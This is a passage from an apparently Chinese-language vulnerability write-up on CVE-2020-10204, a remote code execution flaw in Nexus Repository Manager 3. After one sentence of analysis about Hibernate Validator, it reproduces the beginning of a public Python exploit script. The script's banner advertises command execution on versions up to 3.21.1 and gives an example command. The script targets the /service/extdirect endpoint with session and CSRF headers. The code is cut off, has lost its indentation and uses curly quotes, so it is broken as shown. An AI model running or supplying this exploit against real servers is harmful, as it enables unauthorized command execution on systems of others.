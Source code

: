 
通过搜索资料了解到Hibernate Validator提供了ParameterMessageInterpolator来处理消息,并且不解析使用`$`的表达式,也就是说即使绕过了replace的地方,也不会作为表达式进行解析,而是直接返回了。

### poc

```
cve-2020-10204_cmd.py 
```

```
#!/usr/bin/python3
# -*- coding:utf-8 -*-
# author:zhzyker
# from:https://github.com/zhzyker/exphub

import sys

import requests

if len(sys.argv)!=4:

print(‘±--------------------------------------------------------------------------------------------------------+’)

print(’+ DES: by zhzyker as [https://github.com/zhzyker/exphub](https://github.com/zhzyker/exphub)                                                    +’)

print(’+      CVE-2020-10204 Nexus Repository Manager 3 Remote Code Execution                                    +’)

print(‘±--------------------------------------------------------------------------------------------------------+’)

print(’+ USE: python3 <filename> <url> <session> <cmd>                                                           +’)

print(’+ EXP: python3 cve-2020-11444_exp.py [http://ip:8081](http://ip:8081) 6c012a5e-88d9-4f96-a05f-3790294dc49a “touch /tmp/233” +’)

print(’+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                                                   +’)

print(‘±--------------------------------------------------------------------------------------------------------+’)

sys.exit(0)

url = sys.argv[1]

vuln_url = url + “/service/extdirect”

session = sys.argv[2]

cmd = sys.argv[3]

headers = {

‘accept’: “application/json”,

‘User-Agent’: “Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36”,

‘NX-ANTI-CSRF-TOKEN’: “0.856555763510765”,

```